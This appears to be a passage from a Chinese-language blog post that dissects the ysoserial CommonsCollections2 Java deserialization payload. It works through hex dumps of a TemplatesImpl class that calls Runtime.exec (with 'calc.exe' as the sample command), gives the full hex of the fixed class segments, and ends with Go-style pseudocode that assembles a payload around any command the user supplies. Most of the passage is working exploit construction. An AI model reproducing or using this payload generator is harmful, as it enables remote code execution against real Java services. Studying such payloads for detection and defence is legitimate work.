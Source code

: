 ```
000007e0: 7469 6d65 0100 1528 294c 6a61 7661 2f6c  time...()Ljava/l
000007f0: 616e 672f 5275 6e74 696d 653b 0c00 2c00  ang/Runtime;..,.
00000800: 2d0a 002b 002e 0100 0863 616c 632e 6578  -..+.....calc.ex
00000810: 6508 0030 0100 0465 7865 6301 0027 284c  e..0...exec..'(L
```

因此从`0x0364-0x0806`为常量：`cafebabe...2b002e01`

随后插入2字节的命令长度和命令本身，可以动态构造，分别命名为`cmdLen`和`cmd`

审计至`0x0870`，发现`0x0871-0x087e`和`0x892-0x089f`是两个相同的数字，长度14。经过多个操作系统的比较，发现这个数字可以是14，15，16。这个数字来源是系统时间，作用只是一个随机ID。所以我们可以生成随机的数字，随机数命名为`randNum`

在命令和随机数之间还有一部分多余的数据，我们将它命名为`beforeRand`

中间拼接的部分是`0x087f-0x0891`，也就是`01001f4c79736f73657269616c2f50776e6572`，分割符命名为`split`（其实ysoserial/Pwner这个字符串也是可以随机的，但没必要再做）

```
00000850: 000d 5374 6163 6b4d 6170 5461 626c 6501  ..StackMapTable.
00000860: 001d 7973 6f73 6572 6961 6c2f 5077 6e65  ..ysoserial/Pwne
00000870: 7237 3833 3834 3833 3035 3434 3731 3601  r78384830544716.
00000880: 001f 4c79 736f 7365 7269 616c 2f50 776e  ..Lysoserial/Pwn
00000890: 6572 3738 3338 3438 3330 3534 3437 3136  er78384830544716
000008a0: 3b00 2100 0200 0300 0100 0400 0100 1a00  ;.!.............
000008b0: 0500 0600 0100 0700 0000 0200 0800 0400  ................
```

最后确认class文件的结尾部分，从`0x08a0-0x09ff`，固定格式`3b002100...00100009`，命名为`suffix`，至此可以成功构造出`templatesImpl`

```
3B002100020003000100040001001A000500060001000700000002000800040001000A000B000100
0C0000002F00010001000000052AB70001B100000002000D0000000600010000002F000E0000000C
000100000005000F003800000001001300140002000C0000003F0000000300000001B10000000200
0D00000006000100000034000E00000020000300000001000F003800000000000100150016000100
0000010017001800020019000000040001001A00010013001B0002000C0000004900000004000000
01B100000002000D00000006000100000038000E0000002A000400000001000F0038000000000001
00150016000100000001001C001D000200000001001E001F00030019000000040001001A00080029
000B0001000C00000024000300020000000FA70003014CB8002F1231B6003557B100000001003600
0000030001030002002000000002002100110000000A00010002002300100009
```



## 实现

通过上文中的命名，可以得出一个简化后的实现函数

```
func GetCommonsCollections2(cmd string) []byte `{`
  ......
  // dataLen取决于TemplateImpl的大小
  // 在TemplateImpl中构造命令
  // 其他都是常量
  templateImpl := GetTemplateImpl(cmd)
  dataLen := calcTemplateImpl(templateImpl)
  ......
  return globalPrefix + dataLen + templateImpl + globalSuffix
`}`
func GetTemplateImpl(cmd string) []byte `{`
  ......
  // cmd由用户输入
  // cmdLen可以计算得出
  // randNum可以随机出
  // 其他都是常量
  cmdLen := caclCmdLen(cmd)
  randNum := getRandNum(cmd)
  ......
  return prefix + cmdLen + cmd + beforeRand + randNum + split + randNum + suffix
```